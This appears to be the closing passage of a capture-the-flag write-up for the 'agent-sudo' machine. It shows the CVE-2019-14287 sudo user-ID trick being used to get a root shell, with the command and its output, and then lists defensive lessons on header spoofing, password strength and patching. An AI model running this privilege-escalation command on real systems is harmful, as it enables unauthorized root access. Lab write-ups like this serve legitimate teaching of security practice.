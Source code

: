 and we pass the crafed user ID from the CVE listing to `sudo -u` :

```console
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

The root flag is at `/root/root.txt`.

If this feels a bit "you either know it or you don't", remember that version enumeration is a key part effective privesc. Linpeas lists the sudo version for this reason, and `sudo -l` and `sudo -V` should be goto's in your manual version enumeration process (...and the box is called agent-sudo).

## 7. Summary and recommendations

So this is all very CTF-y, but we can still pull out a couple of security lessons : 

* **HTTP headers** Agent R relied on the User-Agent header as a unique identifier. Spoofing HTTP headers is trivial and they should not be used to store sensitive or identifying information. Only Cookies should be considered suitable for authentication / authorisation, and only when properly scoped and managed.
* **Password Complexity** Accessing the zipfile embedded in the `cutie.png` image relied on cracking a password hash. Using a sufficiently complex password (length and randomness is particularly important here) makes dictionary attacks effectively impossible.
* **Version control, upgrades and software auditing** [The CVE-2019-14287 bug was first announced publicly on the 14th October 2019](https://seclists.org/bugtraq/2019/Oct/21), shortly after the publication of the fixed version. Regular system updates would have eliminated this vulnerability, but for other binaries and applications threat information and version updates are less readily available. Proactive vulnerability scanning, version control and auditing, and effective threat intelligence integration are key here - know what you've got, know what version you have, and find out who will tell you about it when something goes wrong.